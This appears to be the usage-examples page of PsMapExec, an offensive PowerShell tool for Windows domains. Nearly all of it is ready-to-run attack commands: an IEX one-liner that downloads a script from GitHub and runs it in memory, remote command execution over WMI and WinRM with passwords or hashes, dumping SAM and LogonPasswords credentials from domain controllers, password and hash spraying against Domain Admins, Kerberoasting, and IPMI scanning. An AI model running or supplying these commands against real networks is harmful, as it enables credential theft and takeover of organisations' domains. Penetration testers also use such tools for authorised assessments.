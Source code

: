 # PsMapExec Usage Examples

### Load directly into memory and execute

    IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")

### Execute WMI commands over all systems in the domain using password authentication
 
     PsMapExec -Targets all -Method WMI -Username Admin -Password Pass -Command ""net user""

### Execute WinRM commands over all systems in the domain using hash authentication

    PsMapExec -Targets all -Method WinRM -Username Admin -Hash [Hash] -Command ""net user""

### Check RDP Access against workstations in the domain and using local authentication

    PsMapExec -Targets Workstations -Method RDP -Username LocalAdmin -Password Pass -LocalAuth
 
### Dump SAM on a single system using SMB and a -ticket for authentication

    PsMapExec -Targets DC01.Security.local -Method SMB -Ticket [Base64-Ticket] -Module SAM

### Check SMB Signing on all domain systems

    PsMapExec -Targets All -Method GenRelayList

### Dump LogonPasswords on all Domain Controllers over WinRM

    PsMapExec -Targets DCs -Method WinRM -Username Admin -Password Pass -Module LogonPasswords

### Use WMI to check current user admin access from systems read from a text file

    PsMapExec -Targets C:\temp\Systems.txt -Method WMI

### Spray passwords across all accounts in the domain

    PsMapExec -Method Spray -SprayPassword [Password]

### Spray Hashes across all accounts in the domain

    PsMapExec -Method Spray -SprayHash [Hash]

### Spray Hashes across all Domain Admin group users

    PsMapExec -Targets ""Domain Admins"" -Method Spray -SprayHash [Hash]

### Kerberoast 

    PsMapExec -Method Kerberoast -ShowOutput

### IPMI

    PsMapExec -Targets 192.168.1.0/24 IPMI
